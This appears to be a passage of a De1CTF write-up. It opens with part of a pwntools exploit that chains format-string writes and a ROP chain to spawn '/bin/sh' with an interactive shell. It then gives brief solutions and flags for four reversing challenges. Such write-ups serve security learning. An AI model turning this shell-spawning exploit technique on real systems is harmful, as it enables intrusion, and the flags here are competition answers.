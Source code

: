 ```python=
r.send("%{}c%18$hhn%{}c%23$hn\x00".format(p+2,0x7a3-p-2))
r.recvrepeat(1)
r.send("%{}c%13$ln%{}c%23$hn\x00".format(0x60,0x7a3-0x60))
r.recvrepeat(1)

syscall = stack+0x120+0x18
context.arch = "amd64"
r.send("%2093c%23$hn".ljust(0x18,"\x00")+flat(
0x40082A,0,1,0x600fe0,1,syscall,0,0x400810,0,
0,1,0x600fe0,0x3b,0x601400,0,0x400810,0,
0,1,syscall,0,0,0x601400,0x400810
))
r.recvrepeat(1)
r.send("\xa4/bin/sh".ljust(0x3c,"\x00"))
r.recvrepeat(1)
r.sendline("sh 1>&0")
r.interactive()

```

## Rev

### Re_Sign

* Use ollydbg 2.0 to defeat UPX
* It uses base64 but with a cumstomized table `0123456789QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm+/=`
* Then you can easily get the flag `de1ctf{E_L4nguag3_1s_K3KeK3_N4Ji4}`

### Cplusplus

* The input format should be like this `$1@$2#$3` `$1` `$2` `$3` are all numbers.
* The first number will be the seed of a random generator. And because the range is small. We can easily get the right number by brutal force.
* The second number will be the index of a string. It should be pretty easy to know the right number.
* The third number is also pretty easy to get.
* Finally the right flag is `de1ctf{78@20637#114}`

### Signal vm

* Just try to understand the meaning of the bytecode.
* Then you can find out that it try do some matrix multiplication.
* But it use modulo. So I use Z3 to get the flag.
* The flag is `de1ctf{7h3n_f4r3_u_w3ll_5w337_cr4g13_HILL_wh3r3_0f3n_71m35_1_v3_r0v3d}`

### Evil_Boost

* In this challenge, you can find out the constraints of flag.
* First, the length of flag is 11. And you should have 5 digits and 1 lower_case alphabet and 5 operators selected from `()/*-`
* Also the second byte should be lower_case alphabet.
* The flag content should be a math expression. and the result of the expression should be `24.0`. For instance, `dctf{3e1-(6)*1*1}` is a flag that can pass all the check.
* The final clue for the real flag is the md5 value of the flag `293316bfd246fa84e566d7999df88e79`
* In the end, I use brute forcing to get the one true flag `de1ctf{5e0*(5-1/5)}`
